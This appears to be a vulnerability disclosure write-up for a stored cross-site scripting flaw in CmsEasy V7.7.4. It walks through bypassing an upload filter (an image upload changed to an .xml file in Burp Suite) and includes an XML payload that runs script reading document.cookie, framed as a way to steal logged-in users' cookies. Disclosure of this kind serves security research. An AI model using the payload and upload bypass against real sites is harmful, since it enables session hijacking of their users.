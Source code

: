 ## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Cross Site Scripting(XSS)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is an XSS vulnerability in CmsEasy.V7.7.4_20210522. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

**Step 1：Register a user**

![register](img/register.png)

**Step 2:login with test1**

![login](img/login.png)

**Step 3:Visit the following connections to add content**

```javascript
http://192.168.174.1/index.php?case=manage&act=add&manage=archive
```

![content](img/content.png)

Upload a picture and grab it with burpsuite

![uploadimg](img/uploadimg.png)

then change the action 'uploadimgage' to 'uploadfile' and modify filename '3.jpg' to '3.xml',at the same time paste the exploit to the content.Then you can see the 3.xml has successfully upload:

```xml
<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert(document.cookie);
	</something:script>
	</body>
</html>
```

![exploit](img/exploit.png)

**Step 5：An attacker can send this malicious link to a logged in user to steal its cookie information **

![xss](img/xss.png)

## Reference

https://www.cmseasy.cn/




